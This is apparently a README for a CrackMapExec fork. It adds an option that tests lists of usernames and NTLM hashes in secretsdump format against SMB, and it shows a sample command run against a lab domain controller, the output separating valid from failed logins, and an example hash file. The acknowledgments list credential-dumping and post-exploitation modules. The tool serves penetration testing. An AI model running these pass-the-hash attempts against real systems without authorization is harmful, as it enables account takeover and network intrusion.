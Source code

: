 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)

# CrackMapExec fork to include features

## Features Added

### Test users and hash pairs from file(s) in "secretdump" format (-uH parameter)
The idea is to be able to take file(s) with multiple lines with useres and respective NTLM hashes in "secretdump" formatting, and test those using SMB for example againist another domain, or to retest these credentials obtained before to see if they are still working. The parameter -d <domain> is required.

**Example:**
```
(CrackMapExec) ~/t/CrackMapExec> cme smb 192.168.56.100 -d ramlab -uH hashes.txt
SMB         192.168.56.100  445    DC01             [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC01) (domain:ramlab) (signing:True) (SMBv1:True)
SMB         192.168.56.100  445    DC01             [-] ramlab\testuser22 4139c3eafc40242c4317313ea08d00b7 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\aaandy 4b291acc6fd3ae12f92ec3e587ab5abe STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\mnfffi 70e81ac21b3b2aedf0b4b601a6226d2d STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser3 4139c3eafc40242c4317313ea08d00b7 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
```

hashes.txt example file:
```
testuser22:1110:aad3b435b51404eeaad3b435b51404ee:4139c3eafc40242c4317313ea08d00b7:::
bbbbb\aaandy:1116:aad3b435b51404eeaad3b435b51404ee:4b291acc6fd3ae12f92ec3e587ab5abe:::
testuser2:1110:aad3b435b51404eeaad3b435b51404ee:85a165727adfbd6550626d515e4e1ef3:::
bbbbbb\mnfffi:1141:aad3b435b51404eeaad3b435b51404ee:70e81ac21b3b2aedf0b4b601a6226d2d:::
bbbbbb\btoaan:1148:aad3b435b51404eeaad3b435b51404ee:0c391a86d139b2a17cf3260a06387558:::
aaaaaa\testuser3:1111:aad3b435b51404eeaad3b435b51404ee:4139c3eafc40242c4317313ea08d00b7:::
testuser2:1110:aad3b435b51404eeaad3b435b51404ee:85a165727adfbd6550626d515e4e1ef3:::
bbbbbb\btoaan:1148:aad3b435b51404eeaad3b435b51404ee:0c391a86d139b2a17cf3260a06387558:::⏎   
```

# Acknowledgments
**(These are the people who did the hard stuff)**

Original repository:
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) :+1:

This project was originally inspired by:
- [smbmap](https://github.com/ShawnDEvans/smbmap)
- [CredCrack](https://github.com/gojhonny/CredCrack)
- [smbexec](https://github.com/pentestgeek/smbexec)

Unintentional contributors:

- The [Empire](https://github.com/PowerShellEmpire/Empire) project
- @T-S-A's [smbspider](https://github.com/T-S-A/smbspider) script
- @ConsciousHacker's partial Python port of Invoke-obfuscation from the [GreatSCT](https://github.com/GreatSCT/GreatSCT) project

This repository contains the following repositories as submodules:
- [Impacket](https://github.com/CoreSecurity/impacket)
- [Pywinrm](https://github.com/diyan/pywinrm)
- [Pywerview](https://github.com/the-useless-one/pywerview)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
- [Mimikittenz](https://github.com/putterpanda/mimikittenz)
- [NetRipper](https://github.com/NytroRST/NetRipper)
- [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
- [SessionGopher](https://github.com/fireeye/SessionGopher)
- [Mimipenguin](https://github.com/huntergregal/mimipenguin)

# Documentation, Tutorials, Examples
See the project's [wiki](https://github.com/byt3bl33d3r/CrackMapExec/wiki) for documentation and usage examples

# Installation
Please see the installation wiki page [here](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Installation).
